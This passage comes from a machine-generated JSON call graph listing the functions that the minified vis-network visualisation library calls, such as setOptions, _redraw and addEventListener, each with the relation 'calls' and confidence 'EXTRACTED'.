"EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "cloneOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "createEdge"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "connect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_createClusterEdges"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_backupEdgeOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "setOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "setOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "endPointsValid"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "endPointsValid"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "endPointsValid"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "endPointsValid"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_isClusteredNode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_isClusteredNode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_getClusterNodeForNode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_clusterEdges"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_getClusterNodeForNode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_clusterEdges"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_restoreEdge"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "openCluster"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_updateState"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "next"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_determineBrowserMethod"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "bindEventListeners"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "clearTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_resizeNodes"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_redraw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_startRendering"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "clearTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "cancelAnimationFrame"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "off"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "requestAnimationFrame"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_requestNextFrame"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_startRendering"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_redraw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_startRendering"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_redraw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_requestNextFrame"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_redraw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "setSize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "setTransform"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getContext"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "translate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "scale"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "beginPath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "closePath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_drawEdges"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_drawNodes"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_drawArrows"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "drawExternalLabels"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_drawSelectionBox"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "beginPath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "closePath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "restore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "clearRect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "setTransform"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getContext"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "save"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "translate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "scale"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "resize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "updateBoundingBox"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "restore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "draw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "draw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "updateBoundingBox"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "draw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "draw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "draw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "drawArrows"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "toLowerCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "beginPath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "rect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "rgba"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "fillRect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "rgba"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "stroke"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "closePath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "bindEventListeners"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "once"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "destroy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "destroy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_cleanUp"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "setSize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "observe"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "unobserve"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "setSize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "clearInterval"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "attachEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "removeEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "detachEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "error"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "setSize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "removeChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_setPixelRatio"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "setTransform"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_bindHammer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "destroy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "onTouch"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "onTap"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "onDoubleTap"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "onHold"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "onDragStart"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "onDrag"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "onDragEnd"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "onPinch"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "onMouseWheel"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "onMouseMove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "onContext"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "onRelease"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_prepareValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_prepareValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_getCameraState"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_getCameraState"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_setCameraState"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getContext"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getContext"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_determinePixelRatio"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getContext"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "setTransform"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_XconvertCanvasToDOM"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_YconvertCanvasToDOM"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_XconvertDOMtoCanvas"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_YconvertDOMtoCanvas"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getRange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "fit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getRange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getRange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "findCenter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "moveTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "moveTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "error"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getViewPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "animateView"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "releaseNode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_transitionRedraw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "off"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "fromCharCode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "fromCharCode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "preventDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "hasOwnProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "bind"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "removeEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "removeEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "rgba"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "url"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "url"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "url"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "url"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "url"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "url"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "url"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "configureKeyboardBindings"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "configureKeyboardBindings"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "destroy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "loadNavigationElements"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "cleanNavigation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "configureKeyboardBindings"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "destroy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "removeChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "cleanNavigation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_stopMovement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "off"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "valueOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "valueOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "off"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "destroy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "reset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "bindToRedraw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "bindToRedraw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "bindToRedraw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "bindToRedraw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "bindToRedraw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "bindToRedraw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "bindToRedraw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "bindToRedraw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "bindToRedraw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "bindToRedraw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "bindToRedraw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "bindToRedraw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "unbindFromRedraw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "unbindFromRedraw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": 